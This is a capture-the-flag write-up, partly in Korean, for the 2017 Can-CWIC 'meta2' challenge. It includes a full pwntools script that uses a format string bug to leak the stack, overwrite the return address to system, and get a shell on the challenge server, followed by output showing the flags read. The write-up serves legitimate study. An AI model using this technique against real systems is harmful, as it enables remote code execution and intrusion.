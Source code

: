 # [2017_Can-CWIC] \[PWN] meta2

## Key words

- Format String Bug

## Problem

```
We are so 1337 we forgot to include the second flag in the binary. Can you read it where it is?

nc 159.203.38.169 5685

Note: You should solve "Meta 1" first.
```

## Analysis

meta1의 문제와 동일합니다. meta2의 경우 서버의 shell을 따야하는 점에서 차이점이 있습니다. 바이너리 내에 system 함수가 있기 때문에 이를 활용하면됩니다.

##Exploit

```python
from pwn import *

context.clear(arch='i386')

binary = ELF('./meta')
#p = process("./meta")
p = remote("159.203.38.169", 5685)
raw_input()
print p.recvuntil("How many times have you seen the meta?\n")
p.sendline("%38$x")
print p.recvuntil("Your answer was: \n")
leaked_stack = int(p.recvline()[:-1],16)
v4 = leaked_stack - 216
v9 = v4 + 528
v8 = v4 + 524
v7 = v4 + 520
ret = v4 + 568
s = v4 + 4

payload = fmtstr_payload(6, {v9: 1948}, write_size='short')
p.sendline(payload)
p.recv()

payload = fmtstr_payload(6, {v8: 2017}, write_size='short')
p.sendline(payload)
p.recv()

payload = fmtstr_payload(6, {v7: 0xffff}, write_size='short')
p.sendline(payload)
p.recv()

payload = fmtstr_payload(6, {ret+152: int("hs".encode("hex"),16)}, write_size='short')
p.sendline(payload)
p.recv()

payload = fmtstr_payload(6, {ret+154: int("\x00".encode("hex"),16)}, write_size='short')
p.sendline(payload)
p.recv()

payload = fmtstr_payload(6, {ret: 0x83e0}, write_size='short')
p.sendline(payload)
p.recv()

payload = fmtstr_payload(6, {ret+2: 0x0804}, write_size='short')
p.sendline(payload)
p.recv()

payload = fmtstr_payload(6, {v4: 0x1}, write_size='short')
p.sendline(payload)
p.recv()


log.info("leaked stack addr : " + hex(leaked_stack))
log.info("v4 addr : "+ hex(v4))
log.info("v9 addr : "+ hex(v9))
log.info("v8 addr : "+ hex(v8))
log.info("v7 addr : "+ hex(v7))
log.info("ret addr : "+ hex(ret))
raw_input()
print p.recv()
p.interactive()
```

main 함수의 ret를 시스템 함수의 plt 주소로 조작하고 이후의 스택을 `sh`로 조작하여 함수의 인자를 넣어줬습니다. (fgets가 받는 문자열의 길이가 32로 제한되어 있는걸 안봐서 삽질을 많이 했습니다… =_=)

## Result

```
Good Job! Now, in what year did IBM demonstrate using code as data?
>
Your answer was: 
n

We might be able to work something out... in what year was this year's CCWC? Also, on a scale of 0x00 to 0xffff, what would you rate its metaprogramming quiz?
>
$ 
Your answer was: 

Congrats on winning the metaprogramming quiz! FLAG{1_4M_VerY_f0rm@tab7e_&&_s0_4dOr4bl3}
$ ls
flag2.txt
limit
meta_private
$ cat flag2.txt
FLAG{M3_Lik3z_Fr0M4tSterzz_Th3y_B3_funki3zz}
```

